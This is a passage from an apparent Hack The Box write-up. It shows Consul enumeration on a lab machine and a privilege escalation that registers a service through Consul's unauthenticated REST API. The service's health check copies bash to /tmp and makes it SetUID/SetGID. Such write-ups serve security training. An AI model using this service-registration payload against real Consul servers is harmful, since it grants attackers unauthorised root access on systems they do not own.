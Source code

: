 ```
}

```

The `acl_default_policy` is allow, which means unless there’s an explicit policy somewhere, no auth is required.

The binary shows it’s version 1.19.2:

```

www-data@heal:/etc/consul.d$ consul version      
Consul v1.19.2
Revision 048f1936
Build Date 2024-08-27T16:06:44Z
Protocol 2 spoken by default, understands 2 to 3 (agent will automatically use protocol >2 when speaking to compatible agents)

```

There are a few services running:

```

ron@heal:~$ consul catalog services
Heal React APP
PostgreSQL
Ruby API service
consul

```

### RCE via Creating Service

In [Ambassador](/2023/01/28/htb-ambassador.html#execution-via-consul), I exploited Consul by having write access to `/etc/consul.d/config.d`, allowing me to drop a configuration file into that directory and then wait for it to load and run.

Here I don’t have that access, so I’ll have to use the REST API to [register a service](https://developer.hashicorp.com/consul/api-docs/agent/service#register-service). I’ll create a JSON file with the information necessary, including a command to create a SetUID / SetGID copy of `bash`:

```

{
  "Name": "0xdf service",
  "ID": "rev-shell",
  "Port": 0,
  "Check": {
      "args": ["bash", "-c", "cp /bin/bash /tmp/0xdf && chmod 6777 /tmp/0xdf"],
      "interval": "30s",
      "timeout": "5s"
  }
}

```
